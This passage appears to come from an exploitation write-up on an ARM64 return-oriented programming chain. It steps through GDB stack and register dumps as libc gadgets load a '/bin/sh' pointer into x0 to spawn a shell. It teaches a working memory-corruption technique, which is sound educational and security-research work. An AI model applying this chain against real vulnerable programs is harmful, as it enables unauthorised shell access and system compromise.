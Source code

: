 Above that however is the `x29`, `x30` pair that we need to setup for the first gadget to chain to the second gadget.

This can get quite maddening.  Just remember at the end of each `ret`, `sp` will be pointing to the top of the previous stack frame, and the first two lines are `x29` and `x30` then your payloads, padding, etc... and you also need to track change in `sp` after each `ldp x29, x30, [sp], #nnn`.

Setting a breakpoint at `*main+44` and continuing on:

```
0x0000ffffe27d9b60│+0x0000: 0x4242424242424242	 ← $x29, $sp
0x0000ffffe27d9b68│+0x0008: 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]
0x0000ffffe27d9b70│+0x0010: 0x4343434343434343
0x0000ffffe27d9b78│+0x0018: 0x4343434343434343
0x0000ffffe27d9b80│+0x0020: 0x4343434343434343
0x0000ffffe27d9b88│+0x0028: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
0x0000ffffe27d9b90│+0x0030: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
0x0000ffffe27d9b98│+0x0038: 0x4444444444444444
0x0000ffffe27d9ba0│+0x0040: 0x4444444444444444
0x0000ffffe27d9ba8│+0x0048: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

The stack pointer was moved to the `BBBBBBBB` and first gadget we set in stack.

One single step:

```
$x29 : 0x4242424242424242 ("BBBBBBBB"?)
$x30 : 0x0000ffff9eac5cbc  →   ldp x19,  x20,  [sp,  #16]
$sp  : 0x0000ffffe27d9b80  →  0x4343434343434343 ("CCCCCCCC"?)
$pc  : 0x00000000004006e0  →  <main+48> ret
$cpsr: [negative ZERO CARRY overflow interrupt fast]
$fpsr: 0x0
$fpcr: 0x0
───────────────────────────────────────────────────────────────────────── stack ────
0x0000ffffe27d9b80│+0x0000: 0x4343434343434343	 ← $sp
0x0000ffffe27d9b88│+0x0008: 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
0x0000ffffe27d9b90│+0x0010: 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
0x0000ffffe27d9b98│+0x0018: 0x4444444444444444
0x0000ffffe27d9ba0│+0x0020: 0x4444444444444444
0x0000ffffe27d9ba8│+0x0028: 0x0000ffff9eae4818  →  0x17fffe99b4000040 ("@"?)
```

We basically just executed `main` `ldp x29, x30, [sp], #32`, the `x30` register now points to our first gadget, and the stack pointer is at the `x29`, `x30` we setup as the second gadget.  The pointer to `/bin/sh` is 16 bytes down stack for the first gadget to load from.

After 3 `si`'s:

```
$x19 : 0x0000ffff9ebbd9a8  →  0x0068732f6e69622f ("/bin/sh"?)
$x20 : 0x4444444444444444 ("DDDDDDDD"?)
$x21 : 0x0
$x22 : 0x0
$x23 : 0x0
$x24 : 0x0
$x25 : 0x0
$x26 : 0x0
$x27 : 0x0
$x28 : 0x0
$x29 : 0x4343434343434343 ("CCCCCCCC"?)
$x30 : 0x0000ffff9eae6080  →  <__xpg_basename+120> mov x0,  x19
$sp  : 0x0000ffffe27d9ba0  →  0x4444444444444444 ("DDDDDDDD"?)
$pc  : 0x0000ffff9eac5cc4  →   ret
$cpsr: [negative ZERO CARRY overflow interrupt fast]
$fpsr: 0x0
$fpcr: 0x0
───────────────────────────────────────────────────────────────────────── stack ────
0x0000ffffe27d9ba0│+0x0000: 0x4444444444444444	 ← $sp
```